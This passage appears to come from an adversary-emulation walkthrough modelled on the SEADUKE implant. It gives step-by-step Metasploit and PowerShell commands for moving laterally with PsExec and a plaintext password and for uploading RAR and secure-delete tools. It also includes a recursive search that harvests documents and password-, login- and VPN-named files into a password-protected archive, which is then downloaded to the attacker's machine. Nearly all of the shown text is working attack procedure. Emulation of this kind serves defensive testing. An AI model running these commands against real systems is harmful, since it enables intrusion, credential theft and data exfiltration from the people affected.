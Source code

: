 #### 8.C

**Execute SEADUKE Remotely via PSEXEC**

[meterpreter (PowerShell)\*] >

```
.\PsExec64.exe -accepteula \\<victim 2 IP> -u "domainName\username" -p P@ssw0rd -i <session ID from 8A> "C:\Windows\Temp\python.exe"
```

You should receive a callback in your other Metasploit terminal.

### Step 9 - Collection

#### 9.A

From the second Metasploit terminal:

[msf] > `sessions`
[msf] > `sessions -i 1`

[meterpreter\*] >

```
upload "/home/gfawkes/Round2/Day1/payloads/r2d1/Seaduke/rar.exe" "C:\\Windows\\Temp\\Rar.exe"
```

[meterpreter\*] >

```
upload "sdelete64.exe" "C:\\Windows\\Temp\\sdelete64.exe"
```

#### 9.B

[meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] >

```
$env:APPDATA;$files=ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*admin*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
```

[meterpreter (PowerShell)\*] > `cd C:\Windows\Temp`

[meterpreter (PowerShell)\*] > `.\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"`

[meterpreter (PowerShell)\*] > `exit`

[meterpreter\*] > `download "C:\\Users\\<username>\\Desktop\\working.zip" .`

#### 9.C

[meterpreter\*] > `shell`
